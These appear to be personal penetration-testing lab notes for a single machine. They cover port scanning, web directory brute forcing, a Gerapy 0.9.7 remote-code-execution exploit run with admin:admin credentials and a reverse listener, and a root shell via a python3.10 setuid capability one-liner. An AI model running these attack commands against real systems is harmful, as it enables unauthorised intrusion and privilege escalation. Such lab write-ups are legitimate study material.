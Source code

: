 ### Enumeration
```
IP=192.168.165.24
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,8000 -A $IP
nc -nvv -w 1 $IP 1-1000 2>&1 | grep -v 'Connection refused'
```
### Ports
- Banner Grab: nc -nv $IP PORT
- 22
- 8000
### Foothold
- 8000
	- Default landing page
		- ![[Pasted image 20240813114307.png]]
		- ![[Pasted image 20240813114335.png]]
	- Login
		- admin:admin
	- Versions
		- Gerapy v0.9.7
			- python/remote/50640.py
			- RCE
			- python 50640.py --lh 192.168.45.163 --lp 21 -t 192.168.165.24 -p 8000
				- Leads to RCE
				- Must have a project
	- Directory Brute force
		- dirsearch -u http://$IP
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
	- Vulnerability scan
		- nikto -h http://$IP
### PE
#### Linux
- app
	- id
		- uid=1000(app) gid=1000(app) groups=1000(app)
	- sudo -l
		- needs password
	- uname -a
		- `Linux ubuntu 5.15.0-73-generic #80-Ubuntu SMP Mon May 15 15:18:26 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
	- getcap -r / 2>/dev/null
		- python3.10
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
			- nothing
	- Users with console
		- app
	- netstat -ano
		- Active ports
	- linpeas
		- Possible Exploits
			- pwnkit
			- dirty cow
		- Interesting Files
			- /usr/bin/python3.10 cap_setuid=ep
			- gtfobins
				- `./python -c 'import os; os.setuid(0); os.system("/bin/sh")'
				- ![[Pasted image 20240813115409.png]]
	- pspy64
### Credentials
### Lessons Learned